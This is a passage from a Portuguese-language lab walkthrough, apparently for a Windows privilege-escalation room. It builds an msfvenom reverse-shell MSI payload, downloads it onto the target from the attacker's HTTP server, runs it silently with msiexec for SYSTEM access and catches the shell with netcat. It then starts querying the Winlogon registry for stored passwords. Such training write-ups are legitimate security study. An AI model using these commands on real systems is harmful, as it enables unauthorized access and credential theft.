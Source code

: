 Utilizando o `msfvenom` vamos criar um payload para executar um `reverse shell` na maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:41:24
╰──➤ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.20.23 LPORT=53 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

agora vamos enviar o arquivo `reverse.msi` para a maquina alvo utilizando o python.

primeiramente vamos subir um servidor local utilizando o comando `python3 -m http.server 80`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:41:56
╰──➤ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

E na maquina alvo vamos utilizar o comando:

```cmd
PS C:\PrivEsc> wget http://10.18.20.23/reverse.msi -o reverse.msi
```

Agora vamos executar o arquivo `reverse.msi` utilizando o comando `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi` para obter acesso como system.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:48:02
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49946
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

e para concluir esse tópico bastar clicar no botão `Completed`.

---

## **<a id="9"> • Passwords - Registry</a>**

Vamos verificar os registros para as chaves `Password` utilizando o comando `reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`.

```powershell
PS C:\PrivEsc> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ
    DefaultUserName    REG_SZ    admin
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
```